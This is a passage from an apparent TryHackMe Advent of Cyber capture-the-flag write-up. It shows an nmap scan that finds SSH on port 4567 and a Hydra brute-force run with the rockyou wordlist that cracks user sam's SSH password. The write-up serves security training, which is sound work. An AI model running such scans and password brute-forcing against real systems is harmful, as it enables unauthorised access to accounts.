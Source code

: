 1. What port is SSH running on?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nmap -A -p- 10.10.163.132
[sudo] password for kali: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-03 13:07 CEST
Nmap scan report for 10.10.163.132
Host is up (0.035s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
4567/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:74:17:5c:4f:d7:a1:9a:e8:ba:86:cf:2a:fe:65:99 (RSA)
|   256 f1:6d:6f:41:85:06:73:f3:f2:30:fd:b6:6d:f8:4d:33 (ECDSA)
|_  256 7b:e4:f5:0b:92:a1:61:60:bb:84:79:5a:15:e5:3d:7f (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/3%OT=4567%CT=1%CU=37212%PV=Y%DS=2%DC=T%G=Y%TM=5F785
OS:BC4%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10B%TI=Z%TS=8)SEQ(SP=108%
OS:GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M
OS:508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=68D
OS:F%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%
OS:CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y
OS:%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%R
OS:D=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPC
OS:K=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   33.88 ms 10.8.0.1
2   33.97 ms 10.10.163.132

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.08 seconds
```

`4567`

2. Crack sam's password and read flag1.txt

`hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.132.190`

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ hydra -l sam -P /usr/share/wordlists/rockyou.txt ssh://10.10.163.132:4567
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-03 13:10:01
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.163.132:4567/
[4567][ssh] host: 10.10.163.132   login: sam   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-03 13:10:14
```

